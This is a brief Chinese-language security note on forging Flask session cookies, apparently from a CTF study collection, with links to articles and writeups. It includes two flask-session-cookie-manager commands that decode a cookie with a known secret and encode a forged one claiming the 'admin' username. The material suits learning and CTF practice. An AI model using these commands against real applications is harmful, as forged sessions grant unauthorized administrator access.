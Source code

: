 # flask安全

---

## session伪造

flask-session 的三部分为 json->zlib->base64后的源字符串.时间戳.hmac签名信息

**相关文章**

- [flask session伪造admin身份](https://blog.csdn.net/since_2020/article/details/119543172)

**相关工具**

- [noraj/flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)
    ```bash
    python3 flask_session_cookie_manager3.py decode -s "thisiskey" -c "eyJ1c2VybmFtZSI6eyIgYiI6IllXUnRhVzQ9In19.YWfurA.sHD-E9MuX4QZJQ4cU07WYykbJZU" # 解密
    python3 flask_session_cookie_manager3.py encode -s "thisiskey" -t "{'username': b'admin'}"  # 加密
    ```

**writeup**
- [[HCTF 2018] admin](https://darkwing.moe/2019/11/04/HCTF-2018-admin/)
- [BUUCTF N1BOOK [第一章 web入门]](https://blog.csdn.net/RABCDXB/article/details/115189884)
